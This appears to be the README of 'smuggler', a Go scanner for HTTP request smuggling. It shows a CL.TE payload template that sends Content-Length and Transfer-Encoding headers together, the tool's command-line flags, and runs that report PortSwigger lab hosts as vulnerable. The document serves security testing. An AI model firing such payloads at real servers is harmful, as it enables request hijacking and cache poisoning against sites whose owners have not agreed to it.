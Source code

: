 # smuggler
net/http makes it very challenging to send a request with malformed or duplicate headers. So for this application, it is more practical to parse a template and write it to a socket. This makes it simple to add your own payloads and may be useful for other things than request smuggling for ease of creating templates by copy/pasting from Burp.  
  
I took some ideas from this article https://www.synopsys.com/blogs/software-security/fuzzing-test-cases-not-all-random/ about the structure of the program. Separating the application into distinct sections being poet, courier, and oracle help make the code more reusable.



Templates:
```
POST {{.Path}} HTTP/1.1
Host: {{.Host}}
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

G

```

Usage:
```
$ ./smuggler -h
Usage of ./smuggler:
  -proxy string
    	Set the Golang proxy, for example: http://example.com:8080
  -threads int
    	Number of concurrent targets to test (default 5)
  -timeout int
    	Timeout (default 10)
  -u string
    	Target URL
  -urls string
    	List of URLs
```

Example test on Portswigger labs:
```
$ ./smuggler -urls targets.test
https://ace51fd41fcbfab0c03e376f00890063.web-security-academy.net/ is vulnerable, payload: templates/template.txt
https://acbf1fa51ea928ebc0ae8934000800c3.web-security-academy.net/ is vulnerable, payload: templates/template2.txt
https://acbf1fa51ea928ebc0ae8934000800c3.web-security-academy.net/ is vulnerable, payload: templates/template3.txt

```

# todo
Allow the oracle to read conditions from the template

